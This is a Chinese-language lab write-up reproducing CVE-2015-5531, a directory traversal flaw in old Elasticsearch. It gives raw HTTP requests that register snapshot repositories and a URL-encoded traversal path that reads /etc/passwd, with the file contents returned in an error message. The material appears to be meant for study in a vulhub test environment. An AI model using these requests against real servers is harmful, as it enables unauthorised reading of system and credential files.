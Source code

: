 # CVE-2015-5531 ElasticSearch 目录穿越漏洞

### 一、漏洞简介

elasticsearch 1.5.1及以前，无需任何配置即可触发该漏洞。之后的新版，配置文件elasticsearch.yml中必须存在path.repo，该配置值为一个目录，且该目录必须可写，等于限制了备份仓库的根位置。不配置该值，默认不启动这个功能。

### 二、漏洞影响

ElasticSearch 1.6.1以下

### 三、复现过程

1.新建一个仓库


```bash
PUT /_snapshot/test HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test" 
    }
}
```

![](images/15890032923569.png)


2.创建一个快照


```bash
PUT /_snapshot/test2 HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata" 
    }
}
```

![](images/15890033157206.png)


3.目录穿越读取任意文件

访问 `http://url:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`

![](images/15890033359774.png)


如上图，在错误信息中包含文件内容（编码后），对其进行解码即可获得文件：

![](images/15890033454698.png)


参考链接

https://vulhub.org/#/environments/elasticsearch/CVE-2015-5531/